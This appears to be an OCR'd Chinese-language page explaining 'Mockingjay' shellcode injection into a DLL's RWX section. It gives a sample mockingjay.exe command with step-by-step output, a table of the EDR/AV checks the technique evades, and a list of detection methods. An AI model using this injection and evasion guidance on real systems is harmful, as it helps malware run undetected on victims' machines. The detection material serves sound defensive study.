 ```cmd
# 使用找到的 DLL 进行注入
mockingjay.exe "C:\Program Files\Git\usr\bin\msys-2.0.dll" payload.bin

# 输出示例：
# [1] 读取 shellcode 文件
#     文件：payload.bin
#     大小：317 字节
#     ✓ Shellcode 读取成功
#
# [2] 加载目标 DLL
#     DLL：C:\Program Files\Git\usr\bin\msys-2.0.dll
#     基地址：0x7FF8A2E40000
#     ✓ DLL 加载成功
#
# [3] 查找 RWX 节区
#     节区名：.text
#     起始地址：0x7FF8A2E41000
#     大小：327680 字节
#     ✓ RWX 节区找到
#
# [4] 写入 shellcode 到 RWX 节区
#     ✓ 成功写入 317 字节到 0x7FF8A2E41000
#
# [5] 执行 shellcode
#     调用地址：0x7FF8A2E41000
#
# ✓ Mockingjay 注入完成
```

## 防御检测

### EDR/AV 绕过

- **内存分配监控**：❌ 无效（不使用 VirtualAlloc）
- **内存保护监控**：❌ 无效（不使用 VirtualProtect）
- **远程注入监控**：❌ 无效（自进程注入）
- **线程创建监控**：❌ 无效（不创建新线程）

### 检测方法

1. **DLL 加载监控**：
   - 监控异常 DLL 加载（如 msys-2.0.dll）
   - 检测非常规路径的 DLL 加载

2. **内存扫描**：
   - 扫描 RWX 内存区域中的可疑代码
   - YARA 规则匹配 shellcode 特征

3. **行为分析**：
   - 监控 `LoadLibrary` 后的异常执行流
   - 检测从 DLL RWX 节区执行的异常行为
